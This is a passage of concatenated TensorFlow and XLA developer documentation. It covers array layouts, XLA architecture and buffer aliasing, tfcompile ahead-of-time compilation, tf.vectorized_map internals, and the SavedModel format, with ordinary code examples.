    The dimension numbers are arbitrary labels for convenience. The order of
    these dimension numbers does not imply a particular minor/major ordering in
    the layout of the shape. The layout is determined by the `Layout` proto.

*   By convention, dimensions are listed in increasing order of dimension
    number. For example, for a 3-dimensional array of size `[A x B x C]`,
    dimension 0 has size `A`, dimension 1 has size `B` and dimension 2 has size
    `C`.

    Some utilities in XLA also support negative indexing, similarly to Python;
    dimension -1 is the last dimension (equivalent to `N-1` for an `N`
    dimensional array). For example, for the 3-dimensional array described
    above, dimension -1 has size `C`, dimension -2 has size `B` and so on.

*   Two, three, and four dimensional arrays often have specific letters
    associated with dimensions. For example, for a 2D array:

    *   dimension 0: `y`
    *   dimension 1: `x`

    For a 3D array:

    *   dimension 0: `z`
    *   dimension 1: `y`
    *   dimension 2: `x`

    For a 4D array:

    *   dimension 0: `p`
    *   dimension 1: `z`
    *   dimension 2: `y`
    *   dimension 3: `x`

*   Functions in the XLA API which take dimensions do so in increasing order of
    dimension number. This matches the ordering used when passing dimensions as
    an `initializer_list`; e.g.

    `ShapeUtil::MakeShape(F32, {A, B, C, D})`

    Will create a shape whose dimension size array consists of the sequence
    `[A, B, C, D]`.

## Layout

The `Layout` proto describes how an array is represented in memory. The `Layout`
proto includes the following fields:

```
message Layout {
  repeated int64 minor_to_major = 1;
  repeated int64 padded_dimensions = 2;
  optional PaddingValue padding_value = 3;
}
```

### Minor-to-major dimension ordering

The only required field is `minor_to_major`. This field describes the
minor-to-major ordering of the dimensions within a shape. Values in
`minor_to_major` are an ordering of the dimensions of the array (`0` to `N-1`
for an `N` dimensional array) with the first value being the most-minor
dimension up to the last value which is the most-major dimension. The most-minor
dimension is the dimension which changes most rapidly when stepping through the
elements of the array laid out in linear memory.

For example, consider the following 2D array of size `[2 x 3]`:

```
a b c
d e f
```

Here dimension `0` is size 2, and dimension `1` is size 3. If the
`minor_to_major` field in the layout is `[0, 1]` then dimension `0` is the
most-minor dimension and dimension `1` is the most-major dimension. This
corresponds to the following layout in linear memory:

```
a d b e c f
```

This minor-to-major dimension order of `0` up to `N-1` is akin to *column-major*
(at rank 2). Assuming a monotonic ordering of dimensions, another name we may
use to refer to this layout in the code is simply "dim 0 is minor".

On the other hand, if the `minor_to_major` field in the layout is `[1, 0]` then
the layout in linear memory is:

```
a b c d e f
```

A minor-to-major dimension order of `N-1` down to `0` for an `N` dimensional
array is akin to *row-major* (at rank 2). Assuming a monotonic ordering of
dimensions, another name we may use to refer to this layout in the code is
simply "dim 0 is major".

#### Default minor-to-major ordering

The default layout for newly created Shapes is "dimension order is
major-to-minor" (akin to row-major at rank 2).

### Padding

Padding is defined in the optional `padded_dimensions` and `padding_value`
fields. The field `padded_dimensions` describes the sizes (widths) to which each
dimension is padded. If present, the number of elements in `padded_dimensions`
must equal the rank of the shape.

For example, given the `[2 x 3]` array defined above, if `padded_dimensions` is
`[3, 5]` then dimension 0 is padded to a width of 3 and dimension 1 is padded to
a width of 5. The layout in linear memory (assuming a padding value of 0 and
column-major layout) is:

```
a d 0 b e 0 c f 0 0 0 0 0 0 0
```

This is equivalent to the layout of the following array with the same
minor-to-major dimension order:

```
a b c 0 0
d e f 0 0
0 0 0 0 0
```

### Indexing into arrays

The class `IndexUtil` in
[index_util.h](https://www.tensorflow.org/code/tensorflow/compiler/xla/index_util.h)
provides utilities for converting between multidimensional indices and linear
indices given a shape and layout. Multidimensional indices include a `int64`
index for each dimension. Linear indices are a single `int64` value which
indexes into the buffer holding the array. See `shape_util.h` and
`layout_util.h` in the same directory for utilities that simplify creation and
manipulation of shapes and layouts.
# XLA Architecture

<div style="width:50%; margin:auto; margin-bottom:10px; margin-top:20px;">

</div>


## Why did we build XLA?

We had several objectives for XLA to work with TensorFlow:

*   *Improve execution speed.* Compile subgraphs to reduce the execution time of
    short-lived Ops to eliminate overhead from the TensorFlow runtime, fuse
    pipelined operations to reduce memory overhead, and specialize to known
    tensor shapes to allow for more aggressive constant propagation.

*   *Improve memory usage.* Analyze and schedule memory usage, in principle
    eliminating many intermediate storage buffers.

*   *Reduce reliance on custom Ops.* Remove the need for many custom Ops by
    improving the performance of automatically fused low-level Ops to match the
    performance of custom Ops that were fused by hand.

*   *Reduce mobile footprint.* Eliminate the TensorFlow runtime by ahead-of-time
    compiling the subgraph and emitting an object/header file pair that can be
    linked directly into another application. The results can reduce the
    footprint for mobile inference by several orders of magnitude.

*   *Improve portability.* Make it relatively easy to write a new backend for
    novel hardware, at which point a large fraction of TensorFlow programs will
    run unmodified on that hardware. This is in contrast with the approach of
    specializing individual monolithic Ops for new hardware, which requires
    TensorFlow programs to be rewritten to make use of those Ops.

## How does XLA work?

The input language to XLA is called "HLO IR", or just HLO (High Level
Operations). The semantics of HLO are described on the
[Operation Semantics](./operation_semantics.md) page. It is most convenient to
think of HLO as a
[compiler IR](https://en.wikipedia.org/wiki/Intermediate_representation).

XLA takes graphs ("computations") defined in HLO and compiles them into machine
instructions for various architectures. XLA is modular in the sense that it is
easy to slot in an alternative backend to
[target some novel HW architecture](./developing_new_backend.md).
The CPU backend for x64 and ARM64 as well as the NVIDIA GPU backend are in the
TensorFlow source tree.

The following diagram shows the compilation process in XLA:

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">
  
</div>

XLA comes with several optimizations and analysis passes that are
target-independent, such as
[CSE](https://en.wikipedia.org/wiki/Common_subexpression_elimination),
target-independent operation fusion, and buffer analysis for allocating runtime
memory for the computation.

After the target-independent step, XLA sends the HLO computation to a backend.
The backend can perform further HLO-level optimizations, this time with target
specific information and needs in mind. For example, the XLA GPU backend may
perform operation fusion beneficial specifically for the GPU programming model
and determine how to partition the computation into streams. At this stage,
backends may also pattern-match certain operations or combinations thereof to
optimized library calls.

The next step is target-specific code generation. The CPU and GPU backends
included with XLA use [LLVM](http://llvm.org) for low-level IR, optimization,
and code-generation. These backends emit the LLVM IR necessary to represent the
XLA HLO computation in an efficient manner, and then invoke LLVM to emit native
code from this LLVM IR.

The GPU backend currently supports NVIDIA GPUs via the LLVM NVPTX backend; the
CPU backend supports multiple CPU ISAs.
# Aliasing in XLA

This document describes the aliasing API for XLA: when building an XLA program,
you can specify the desired aliasing between the input and output buffers.

## Defining aliasing at compile-time

For example, consider a trivial HLO module which simply adds `1` to its input:

```
HloModule increment

ENTRY entry {
  %p = f32[] parameter(0)
  %c = f32[] constant(1)
  ROOT %out = f32[] add(%p, %c)
}
```

This module will allocate two 4-byte buffers: one for the input `%p`, and one
for the output `%out`.

However, it is often desirable to perform the update in-place (for example, if
in the frontend generating the expression the input variable is no longer alive
after the computation, as in the increment `p++`).

To perform such an update efficiently, you can specify the input aliasing:

```
HloModule increment, input_output_alias={ {}: 0 }

ENTRY entry {
  %p = f32[] parameter(0)
  %c = f32[] constant(1)
  ROOT %out = f32[] add(%p, %c)
}
```

The format specifies that the entire output (marked by `{}`) is aliased to the
input parameter `0`.

See the
[`XlaBuilder::SetUpAlias`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h)
API to specify the aliasing programmatically.

## Defining aliasing at run-time

The aliasing defined in the previous step is specified during the _compilation_.
During the execution, you can choose whether actually to donate the buffer using
the
[`LocalClient::RunAsync`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/local_client.h)
API.

Input buffers to the program are wrapped in
[`ExecutionInput`](https://www.tensorflow.org/code/tensorflow/compiler/xla/service/executable.h),
which in turn contain a tree of `MaybeOwningDeviceMemory`. If memory is
specified as _owning_ (ownership of the buffer is passed to the XLA runtime),
the buffer is actually donated, and the update is executed in-place, as
requested by the compile-time aliasing API.

If, however, the buffer which is aliased at compile time is _not_ donated at
runtime, _copy-protection_ kicks in: an extra output buffer `O` is allocated,
and the contents of the input buffer `P` which was meant to be aliased are
copied into `O` (so effectively the program can execute as if the buffer `O` was
donated at runtime).

## Frontend interop

### TF/XLA

In clusters of TensorFlow program compiled with XLA, all resource variable
updates are aliased at compile time (the aliasing at runtime depends on whether
anything else holds a reference to the resource variable tensor).
# Using AOT compilation

## What is tfcompile?

`tfcompile` is a standalone tool that ahead-of-time (AOT) compiles TensorFlow
graphs into executable code. It can reduce total binary size, and also avoid
some runtime overheads. A typical use-case of `tfcompile` is to compile an
inference graph into executable code for mobile devices.

The TensorFlow graph is normally executed by the TensorFlow runtime. This incurs
some runtime overhead for execution of each node in the graph. This also leads
to a larger total binary size, since the code for the TensorFlow runtime needs
to be available, in addition to the graph itself. The executable code produced
by `tfcompile` does not use the TensorFlow runtime, and only has dependencies on
kernels that are actually used in the computation.

The compiler is built on top of the XLA framework. The code bridging TensorFlow
to the XLA framework resides under
[tensorflow/compiler](https://www.tensorflow.org/code/tensorflow/compiler/).

## What does tfcompile do?

`tfcompile` takes a subgraph, identified by the TensorFlow concepts of
feeds and fetches, and generates a function that implements that subgraph.
The `feeds` are the input arguments for the function, and the `fetches` are the
output arguments for the function. All inputs must be fully specified by the
feeds; the resulting pruned subgraph cannot contain Placeholder or Variable
nodes. It is common to specify all Placeholders and Variables as feeds, which
ensures the resulting subgraph no longer contains these nodes. The generated
function is packaged as a `cc_library`, with a header file exporting the
function signature, and an object file containing the implementation. The user
writes code to invoke the generated function as appropriate.

## Using tfcompile

This section details high level steps for generating an executable binary with
`tfcompile` from a TensorFlow subgraph. The steps are:

*   Step 1: Configure the subgraph to compile
*   Step 2: Use the `tf_library` build macro to compile the subgraph
*   Step 3: Write code to invoke the subgraph
*   Step 4: Create the final binary

### Step 1: Configure the subgraph to compile

Identify the feeds and fetches that correspond to the input and output
arguments for the generated function. Then configure the `feeds` and `fetches`
in a [`tensorflow.tf2xla.Config`](https://www.tensorflow.org/code/tensorflow/compiler/tf2xla/tf2xla.proto)
proto.

```textproto
# Each feed is a positional input argument for the generated function.  The order
# of each entry matches the order of each input argument.  Here “x_hold” and “y_hold”
# refer to the names of placeholder nodes defined in the graph.
feed {
  id { node_name: "x_hold" }
  shape {
    dim { size: 2 }
    dim { size: 3 }
  }
}
feed {
  id { node_name: "y_hold" }
  shape {
    dim { size: 3 }
    dim { size: 2 }
  }
}

# Each fetch is a positional output argument for the generated function.  The order
# of each entry matches the order of each output argument.  Here “x_y_prod”
# refers to the name of a matmul node defined in the graph.
fetch {
  id { node_name: "x_y_prod" }
}
```

### Step 2: Use tf_library build macro to compile the subgraph

This step converts the graph into a `cc_library` using the `tf_library` build
macro. The `cc_library` consists of an object file containing the code generated
from the graph, along with a header file that gives access to the generated
code. `tf_library` utilizes `tfcompile` to compile the TensorFlow graph into
executable code.

```build
load("//tensorflow/compiler/aot:tfcompile.bzl", "tf_library")

# Use the tf_library macro to compile your graph into executable code.
tf_library(
    # name is used to generate the following underlying build rules:
    # <name>           : cc_library packaging the generated header and object files
    # <name>_test      : cc_test containing a simple test and benchmark
    # <name>_benchmark : cc_binary containing a stand-alone benchmark with minimal deps;
    #                    can be run on a mobile device
    name = "test_graph_tfmatmul",
    # cpp_class specifies the name of the generated C++ class, with namespaces allowed.
    # The class will be generated in the given namespace(s), or if no namespaces are
    # given, within the global namespace.
    cpp_class = "foo::bar::MatMulComp",
    # graph is the input GraphDef proto, by default expected in binary format.  To
    # use the text format instead, just use the ‘.pbtxt’ suffix.  A subgraph will be
    # created from this input graph, with feeds as inputs and fetches as outputs.
    # No Placeholder or Variable ops may exist in this subgraph.
    graph = "test_graph_tfmatmul.pb",
    # config is the input Config proto, by default expected in binary format.  To
    # use the text format instead, use the ‘.pbtxt’ suffix.  This is where the
    # feeds and fetches were specified above, in the previous step.
    config = "test_graph_tfmatmul.config.pbtxt",
)
```

> To generate the GraphDef proto (test_graph_tfmatmul.pb) for this example, run
> [make_test_graphs.py](https://www.tensorflow.org/code/tensorflow/compiler/aot/tests/make_test_graphs.py)
> and specify the output location with the --out_dir flag.

Typical graphs contain [`Variables`](https://www.tensorflow.org/guide/variables)
representing the weights that are learned via training, but `tfcompile` cannot
compile a subgraph that contain `Variables`. The
[freeze_graph.py](https://www.tensorflow.org/code/tensorflow/python/tools/freeze_graph.py)
tool converts variables into constants, using values stored in a checkpoint
file. As a convenience, the `tf_library` macro supports the `freeze_checkpoint`
argument, which runs the tool. For more examples see
[tensorflow/compiler/aot/tests/BUILD](https://www.tensorflow.org/code/tensorflow/compiler/aot/tests/BUILD).

> Constants that show up in the compiled subgraph are compiled directly into the
> generated code. To pass the constants into the generated function, rather than
> having them compiled-in, simply pass them in as feeds.

For details on the `tf_library` build macro, see
[tfcompile.bzl](https://www.tensorflow.org/code/tensorflow/compiler/aot/tfcompile.bzl).

For details on the underlying `tfcompile` tool, see
[tfcompile_main.cc](https://www.tensorflow.org/code/tensorflow/compiler/aot/tfcompile_main.cc).

### Step 3: Write code to invoke the subgraph

This step uses the header file (`test_graph_tfmatmul.h`) generated by the
`tf_library` build macro in the previous step to invoke the generated code. The
header file is located in the `bazel-bin` directory corresponding to the
build package, and is named based on the name attribute set on the `tf_library`
build macro. For example, the header generated for `test_graph_tfmatmul` would
be `test_graph_tfmatmul.h`. Below is an abbreviated version of what is
generated. The generated file, in `bazel-bin`, contains additional useful
comments.

```c++
namespace foo {
namespace bar {

// MatMulComp represents a computation previously specified in a
// TensorFlow graph, now compiled into executable code.
class MatMulComp {
 public:
  // AllocMode controls the buffer allocation mode.
  enum class AllocMode {
    ARGS_RESULTS_AND_TEMPS,  // Allocate arg, result and temp buffers
    RESULTS_AND_TEMPS_ONLY,  // Only allocate result and temp buffers
  };

  MatMulComp(AllocMode mode = AllocMode::ARGS_RESULTS_AND_TEMPS);
  ~MatMulComp();

  // Runs the computation, with inputs read from arg buffers, and outputs
  // written to result buffers. Returns true on success and false on failure.
  bool Run();

  // Arg methods for managing input buffers. Buffers are in row-major order.
  // There is a set of methods for each positional argument.
  void** args();

  void set_arg0_data(float* data);
  float* arg0_data();
  float& arg0(size_t dim0, size_t dim1);

  void set_arg1_data(float* data);
  float* arg1_data();
  float& arg1(size_t dim0, size_t dim1);

  // Result methods for managing output buffers. Buffers are in row-major order.
  // Must only be called after a successful Run call. There is a set of methods
  // for each positional result.
  void** results();


  float* result0_data();
  float& result0(size_t dim0, size_t dim1);
};

}  // end namespace bar
}  // end namespace foo
```

The generated C++ class is called `MatMulComp` in the `foo::bar` namespace,
because that was the `cpp_class` specified in the `tf_library` macro. All
generated classes have a similar API, with the only difference being the methods
to handle arg and result buffers. Those methods differ based on the number and
types of the buffers, which were specified by the `feed` and `fetch` arguments
to the `tf_library` macro.

There are three types of buffers managed within the generated class: `args`
representing the inputs, `results` representing the outputs, and `temps`
representing temporary buffers used internally to perform the computation. By
default, each instance of the generated class allocates and manages all of these
buffers for you. The `AllocMode` constructor argument may be used to change this
behavior. All buffers are aligned to 64-byte boundaries.

The generated C++ class is just a wrapper around the low-level code generated by
XLA.

Example of invoking the generated function based on
[`tfcompile_test.cc`](https://www.tensorflow.org/code/tensorflow/compiler/aot/tests/tfcompile_test.cc):

```c++
#define EIGEN_USE_THREADS
#define EIGEN_USE_CUSTOM_THREAD_POOL

#include <iostream>
#include "third_party/eigen3/unsupported/Eigen/CXX11/Tensor"
#include "tensorflow/compiler/aot/tests/test_graph_tfmatmul.h" // generated

int main(int argc, char** argv) {
  Eigen::ThreadPool tp(2);  // Size the thread pool as appropriate.
  Eigen::ThreadPoolDevice device(&tp, tp.NumThreads());


  foo::bar::MatMulComp matmul;
  matmul.set_thread_pool(&device);

  // Set up args and run the computation.
  const float args[12] = {1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12};
  std::copy(args + 0, args + 6, matmul.arg0_data());
  std::copy(args + 6, args + 12, matmul.arg1_data());
  matmul.Run();

  // Check result
  if (matmul.result0(0, 0) == 58) {
    std::cout << "Success" << std::endl;
  } else {
    std::cout << "Failed. Expected value 58 at 0,0. Got:"
              << matmul.result0(0, 0) << std::endl;
  }

  return 0;
}
```

### Step 4: Create the final binary

This step combines the library generated by `tf_library` in step 2 and the code
written in step 3 to create a final binary. Below is an example `bazel` BUILD
file.

```build
# Example of linking your binary
# Also see //tensorflow/compiler/aot/tests/BUILD
load("//tensorflow/compiler/aot:tfcompile.bzl", "tf_library")

# The same tf_library call from step 2 above.
tf_library(
    name = "test_graph_tfmatmul",
    ...
)

# The executable code generated by tf_library can then be linked into your code.
cc_binary(
    name = "my_binary",
    srcs = [
        "my_code.cc",  # include test_graph_tfmatmul.h to access the generated header
    ],
    deps = [
        ":test_graph_tfmatmul",  # link in the generated object file
        "//third_party/eigen3",
    ],
    linkopts = [
          "-lpthread",
    ]
)
```
# TPU Driver API

This repository contains the TPU driver API and network (gRPC) transport
implementation for high-performance access to TPU hardware.

# Building

Bazel is used to build the driver library and tests. Remote tests will require
access to a Cloud TPU.

## Fetching Bazel

Download the latest copy of Bazel from
https://github.com/bazelbuild/bazel/releases.

## Building

`bazel build ...`

## Testing

`bazel test ...`
# Vectorized map

*See also https://en.wikipedia.org/wiki/Automatic_vectorization*

TensorFlow provides in-graph looping constructs like `tf.while_loop` which are
similar to loops in other languages: they repeatedly run the loop body, not
keeping memory contiguous or taking advantage of hardware SIMD. When loop
iterations are independent, it is much more efficient to batch tensors together:
a matrix-matrix multiply instead of a loop over vector-matrix multiplies.

`tf.vectorized_map` provides a `tf.map_fn`-like API with the efficiency of
manual batching: while the API matches APIs which are implemented with a
`tf.while_loop` like `tf.map_fn`, `tf.vectorized_map` is implemented by using
batch dimensions of ops. This `tf.map_fn` style is often a more convenient way
to author models, as opposed to juggling a batch dimension explicitly:

```python
def f(args):
  embeddings, index = args
  # embeddings [vocab_size, embedding_dim]
  # index []
  # desired result: [embedding_dim]
  return tf.gather(params=embeddings, indices=index)

@tf.function
def f_auto_vectorized(embeddings, indices):
  # embeddings [num_heads, vocab_size, embedding_dim]
  # indices [num_heads]
  # desired result: [num_heads, embedding_dim]
  return tf.vectorized_map(f, [embeddings, indices])

concrete_vectorized = f_auto_vectorized.get_concrete_function(
  tf.TensorSpec(shape=[None, 100, 16], dtype=tf.float32),
  tf.TensorSpec(shape=[None], dtype=tf.int32))
print(concrete_vectorized.graph.as_graph_def())
```

The vectorized graph contains many ops, but no loops. Instead,
`tf.vectorized_map` looks at the GatherV2 op and its attributes, and generates
the equivalent of `tf.gather(..., batch_dims=1)` without requiring the user to
know how to tell `tf.gather` and every other op they use which dimensions are
batch dimensions.

```python
gdef = concrete_vectorized.graph.as_graph_def()
print([n for n in gdef.node if n.op == "GatherV2"])
```

This prints a bunch of gathers related to pfor infrastructure, but at the time
of writing does include one with a `batch_dims` attribute of `1`.

## Vectorization as a post-trace graph transformation

`tf.vectorized_map` currently works as a graph-to-graph transformation
implemented in Python. This is mostly a historical artifact: it was conceived
before TensorFlow did op-by-op execution. It is similar to `tf.gradients`,
walking the connections in an existing graph and applying op-specific rules
(defined by `RegisterGradient` for `tf.gradients`, `RegisterPFor` for
`tf.vectorized_map`) in order to produce a new graph. While `tf.gradients` adds
a backward pass which references tensors in the forward pass (both execute),
`tf.vectorized_map` creates a transformed graph which executes in place of the
original graph.

For gradients, `tf.GradientTape` was introduced to provide an op-by-op version
of gradients, re-using the per-op `RegisterGradient` definitions. There is no
equivalent for vectorization. Instead, `tf.vectorized_map` wraps the function it
takes as an argument in `tf.function` in order to create a trace to
vectorize. This means that the user's function never executes eagerly, and if
`tf.vectorized_map` is called executing eagerly that the user's function is
re-traced and re-vectorized every call to `tf.vectorized_map`.

While `tf.vectorized_map` is the public-facing API, the implementation is
written in terms of [an integer-indexed for
loop](https://github.com/tensorflow/tensorflow/blob/8b000ce0d5395d399e08791ae9589b41358f651d/tensorflow/python/ops/parallel_for/control_flow_ops.py#L134). The
loop does not execute as a regular for loop, but this is a good mental model and
the implementation makes frequent references to `loop_len`, i.e. the number of
iterations for the hypothetical loop. The user-visible outputs should ideally
match the outputs of an equivalent real for loop, and this is how most of the
unit tests are written.

The virtual for loop setup includes a loop-variant integer loop index
tensor. "Loop-variant" just means a tensor with a different value on each
iteration; loop-variant tensors are represented with a leading extra dimension
corresponding to the loop iteration. `tf.vectorized_map`'s implementation
`tf.gather`s a slice of each input using the loop index and then runs the user's
function on those (loop-variant) values.

Anything with the loop index in its transitive input is loop-variant and must be
transformed. Ops like `tf.constant`, however, create loop-invariant values
(i.e. their values are the same on each loop iteration). Loop-invariant values
returned from vectorization may simply be tiled, but more frequently they feed
into ops with a mix of variant/invariant inputs to produce loop-variant
values. Converters for ops will sometimes have simpler special cases for
loop-invariant inputs, e.g. `tf.roll`'s converter is much simpler if the shift
amount is loop-invariant (a common case).

## Defining vectorizations

As with gradients, most ops have relatively straightforward definitions and
function call / control flow operations have complicated special cases. This
section covers the common cases.

As with `RegisterGradient`, converters are defined for op types (with a
corresponding `REGISTER_OP` macro in C++, named WithUppercase), not Python
endpoints. So if the user writes `tf.roll`, the corresponding
[`RegisterPFor("Roll")`
converter](https://github.com/tensorflow/tensorflow/blob/349172cf0ac29ba1346d244a40dc4761b4600f2e/tensorflow/python/ops/parallel_for/pfor.py#L2653)
is triggered since `tf.roll` is implemented with the "Roll" op.

Like gradients, the set of all TensorFlow ops would ideally be closed under
vectorization (i.e. vectorization would always produce ops which are themselves
vectorizable). In practice not all ops have pfor converters defined, and those
that do sometimes assume inputs are loop-invariant. A "fallback converter" runs
in these cases, adding a `tf.while_loop` in place of a real vectorization for
the op. This is safe but generally slower. `tf.while_loop` can run iterations in
parallel (non-strict execution), but other benefits of vectorization like
contiguous memory layouts and SIMD are not available.

For stateless ops which compute a deterministic value from their inputs, the
common case, pfor converters take loop-variant inputs with an extra dimension
("stacked") and emit an op or subgraph which treats this extra stacked dimension
(the tensor's zeroth dimension) as a batch dimension but otherwise computes the
same value as the original op. This may involve examining the original op's
attributes and forwarding them to newly emitted ops.

The general case for a converter has every input stacked and loop-variant, but
there are often more efficient special cases when some inputs are loop-invariant
and so may be handled "unstacked" (with no special zeroth dimension). Some
converters omit the general case entirely, simply requesting the unstacked input
and relying on the fallback converter triggering if that fails because the input
is loop-variant. Others have branches for various combinations of
stacked/unstacked inputs.

There are many examples of existing converters, all in
tensorflow/python/ops/parallel_for/pfor.py (the user-facing APIs are defined in
control_flow_ops.py in the same directory). Converters can be quite subtle, so
it is important to use the unit test macros to compare to a ground-truth for
loop and to ensure that all relevant combinations of loop variant/invariant
inputs are covered by these tests.

## Stateful ops

Stateful ops and ops with non-deterministic outputs are difficult to deal
with. One option is to use the fallback `tf.while_loop` converter for these ops,
so e.g. `tf.print` would print `loop_len` times with the different loop-variant
values. This makes sense from the "for loop as ground truth" mindset, but it's
less clear that this satisfies user expectations for `tf.vectorized_map` (which
doesn't explicitly mention a loop).

There isn't a great universal answer for this class of ops. Currently `tf.print`
[prints the full vectorized
tensors](https://github.com/tensorflow/tensorflow/blob/349172cf0ac29ba1346d244a40dc4761b4600f2e/tensorflow/python/ops/parallel_for/pfor.py#L3505-L3522) ([example](https://github.com/tensorflow/tensorflow/blob/8b202f08d52e8206af2bdb2112a62fafbc546ec7/tensorflow/python/ops/parallel_for/control_flow_ops_test.py#L956-L970))
rather than printing `loop_len` times. Stateful random ops are [vectorized by
adding an extra dimension to their output](https://github.com/tensorflow/tensorflow/blob/349172cf0ac29ba1346d244a40dc4761b4600f2e/tensorflow/python/ops/parallel_for/pfor.py#L3276-L3294) shape attributes, even though this
gives a different result (but follows the same distribution / independence
structure). Stateless random ops [use the `tf.while_loop` fallback converter](https://github.com/tensorflow/tensorflow/blob/349172cf0ac29ba1346d244a40dc4761b4600f2e/tensorflow/python/ops/parallel_for/pfor.py#L3360-L3377)
since users might care more about the exact values; this may want revisiting if
stateless random ops are used to implement popular APIs.

## Vectorization of control flow (while_loop, cond) and variants

Ops whose execution is defined by a serialized program (generally a FunctionDef
referenced by name in an attribute) need special handling, since the vectorized
op will reference a transformed serialized program.

For function call operations this is relatively straightforward: the converter
converts the function body and generates a new call operation referencing the
vectorized function body. (See `RegisterPfor("PartitionedCall")`; the code is
pretty readable.)

Cond (["If"/"StatelessIf" ops](https://github.com/tensorflow/tensorflow/blob/349172cf0ac29ba1346d244a40dc4761b4600f2e/tensorflow/python/ops/parallel_for/pfor.py#L4499); [example](https://github.com/tensorflow/tensorflow/blob/8b202f08d52e8206af2bdb2112a62fafbc546ec7/tensorflow/python/ops/parallel_for/control_flow_ops_test.py#L2041-L2053)) can be a bit more complicated if the Boolean
condition is loop variant, in which case inputs/outputs must be partitioned
between the branches and both run (although the ops in one branch could have
zero-sized inputs if the loop variant condition happened to not trigger that
branch for any iteration of the virtual for loop). If the condition Boolean is
loop invariant then cond is very similar to a function call operation, just with
two function bodies to transform.

[While loop vectorization](https://github.com/tensorflow/tensorflow/blob/349172cf0ac29ba1346d244a40dc4761b4600f2e/tensorflow/python/ops/parallel_for/pfor.py#L5001) is fairly complicated. This is unrelated to the
fallback converter for ops; it triggers when users define a graph with a
`tf.while_loop` and then request vectorization for it (although the fallback
converter can trigger this case when `tf.vectorized_map` is nested). At a high
level, while loop conversion is an iterative version of the
loop-variant-condition cond conversion. Only one while loop runs in the
vectorized graph, but it keeps track of which iterations of the virtual pfor
loop are done and only runs the while loop body for corresponding inputs. Once
all of the iterations of the virtual pfor loop would have finished their
`tf.while_loop`s the single vectorized loop terminates.

While loops accumulate values across iterations in TensorLists (aka
TensorArrays). These are variant-dtype tensors with a C++ vector of pointers to
other tensors. A straightforward conversion would simply stack variant tensors,
so rather than scalar variant-dtype tensors they would have shape
`[loop_len]`. However, this would make memory non-contiguous: the tensors across
each iteration of the virtual pfor loop would be separate Tensor objects in C++,
and concatenation / splitting would be necessary to push and pop
tensors. Instead, TensorLists are special-cased to use "internal vectorization":
the variant representing a vectorized/stacked TensorList remains a scalar, but
the shape of the tensors it contains has a special zeroth dimension. This makes
many common operations on vectorized TensorLists more efficient, but leads to
some complicated special cases when accessing the vectorization dimension.
This module implements `tf.experimental.numpy` APIs, which provide NumPy APIs
implemented on top of TensorFlow.

Please see [TensorFlow NumPy API
Documentation](https://www.tensorflow.org/api_docs/python/tf/experimental/numpy).
# TensorFlow Event Processing

This folder contains classes useful for analyzing and visualizing TensorFlow
events files. The code is primarily being developed to support TensorBoard,
but it can be used by anyone who wishes to analyze or visualize TensorFlow
events files.

If you wish to load TensorFlow events, you should use an EventAccumulator
(to load from a single events file) or an EventMultiplexer (to load from
multiple events files).
# TensorFlow SavedModel

[TOC]

## Overview

SavedModel is the universal serialization format for
[TensorFlow](https://www.tensorflow.org/) models.

SavedModel provides a language-neutral format to save machine-learning models
that is recoverable and hermetic. It enables higher-level systems and tools to
produce, consume and transform TensorFlow models.

## Guides
* [Using the SavedModel Format](https://www.tensorflow.org/guide/saved_model)
* [Save and load Keras models](https://www.tensorflow.org/guide/keras/save_and_serialize)
* [Save and load with checkpointing in Keras](https://www.tensorflow.org/tutorials/keras/save_and_load)
* [Training checkpoints](https://www.tensorflow.org/guide/checkpoint)
* [Save and load a model using a distribution strategy](https://www.tensorflow.org/tutorials/distribute/save_and_load)


## [Public API](https://www.tensorflow.org/api_docs/python/tf/saved_model)
* [`tf.saved_model.save`](https://www.tensorflow.org/api_docs/python/tf/saved_model/save)
* [`tf.saved_model.load`](https://www.tensorflow.org/api_docs/python/tf/saved_model/load)
* [`tf.saved_model.SaveOptions`](https://www.tensorflow.org/api_docs/python/tf/saved_model/SaveOptions)
* [`tf.saved_model.LoadOptions`](https://www.tensorflow.org/api_docs/python/tf/saved_model/LoadOptions)
* [`tf.saved_model.Asset`](https://www.tensorflow.org/api_docs/python/tf/saved_model/Asset)
* [`tf.saved_model.contains_saved_model`](https://www.tensorflow.org/api_docs/python/tf/saved_model/contains_saved_model)

### Related Modules and Functions
* [`tf.keras.models.save_model`](https://www.tensorflow.org/api_docs/python/tf/keras/models/save_model)
* [`tf.keras.models.load_model`](https://www.tensorflow.org/api_docs/python/tf/keras/models/load_model)
* [`tf.train.Checkpoint`](https://www.tensorflow.org/api_docs/python/tf/train/Checkpoint)


## The SavedModel Format
A SavedModel directory has the following structure:

```
assets/
assets.extra/
variables/
    variables.data-?????-of-?????
    variables.index
saved_model.pb
```

*   SavedModel protocol buffer
    *   [`saved_model.pb`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/protobuf/saved_model.proto)
        or `saved_model.pbtxt`
    *   Includes the graph definitions as `MetaGraphDef` protocol buffers.
*   Assets
    *   Subfolder called `assets`.
    *   Contains auxiliary files such as vocabularies, etc.
*   Extra assets
    *   Subfolder where higher-level libraries and users can add their own
        assets that co-exist with the model, but are not loaded by the graph.
    *   This subfolder is not managed by the SavedModel libraries.
*   Variables
    *   Subfolder called `variables`.
        *   `variables.data-?????-of-?????`
        *   `variables.index`

---

## SavedModel in TensorFlow 1.x

SavedModel had slightly different semantics in TF 1.x. Conventions that are
generally only supported in TF 1.x are noted as such.

### Features

The following is a summary of the features in SavedModel:

* (TF1-only) Multiple graphs sharing a single set of variables and assets can be added to a
  single SavedModel. Each graph is associated with a specific set of tags to
  allow identification during a load or restore operation.
* (TF1-only) Support for `SignatureDefs`
    * Graphs that are used for inference tasks typically have a set of inputs
      and outputs. This is called a `Signature`.
    * SavedModel uses [SignatureDefs](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/protobuf/meta_graph.proto)
      to allow generic support for signatures that may need to be saved with the graphs.
    * For commonly used SignatureDefs in the context of TensorFlow Serving,
      please see documentation [here](https://github.com/tensorflow/serving/blob/master/tensorflow_serving/g3doc/signature_defs.md).
* Support for `Assets`.
    * For cases where ops depend on external files for initialization, such as
      vocabularies, SavedModel supports this via `assets`.
    * Assets are copied to the SavedModel location and can be read when loading
      a specific meta graph def.
* Support to clear devices before generating the SavedModel.

The following is a summary of features that are NOT supported in SavedModel.
Higher-level frameworks and tools that use SavedModel may provide these.

* Implicit versioning.
* Garbage collection.
